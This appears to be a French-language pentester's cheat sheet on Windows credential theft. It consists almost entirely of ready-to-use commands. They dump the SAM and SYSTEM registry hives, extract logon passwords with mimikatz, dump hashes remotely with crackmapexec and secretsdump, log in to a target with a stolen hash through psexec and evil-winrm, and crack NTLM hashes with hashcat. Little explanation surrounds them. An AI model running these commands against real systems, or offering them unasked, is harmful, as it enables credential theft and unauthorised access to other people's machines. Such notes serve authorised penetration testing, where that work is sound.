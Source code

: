 ```yaml
---
public: true # set to true to make the article publishable
---
```


## Localement
### Récupération de la SAM
```
reg save hklm\sam sam.save
reg save hklm\system system.save
reg save hklm\security security.save
```

### Mimikatz

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
```
## A distance 

```
crackmapexec smb $TARGET_IP --local-auth -u $LOCAL_USER -p $LOCAL_PASS --sam
```

## Extraction des Hashs

### SAM
```
secretdump.py local -sam sam.save -security security.save -system system.save LOCAL
```


## Utilisation des Hash LM:NT
### Accès distant
``` shell 
psexec.py Administrator@$TARGET_IP -hashes xxxxxxxxxxxxxxxxx:xxxxxxxxxxxxxxxxxxxxxxx
# ou
psexec.py Administrator@$TARGET_IP -hashes :xxxxxxxxxxxxxxxxxxxxxxx
# on peut également utiliser wmiexec.py et smbexec.py ou encore evil-winrm
evil-winrm -i $TARGET_IP -u Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

### Cassage des hashs avec hashcat

```
cat hash.txt
64f12cddaa88057e06a81b54e73b949b
31d6cfe0d16ae931b73c59d7e0c089c0
...

sudo hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt
```
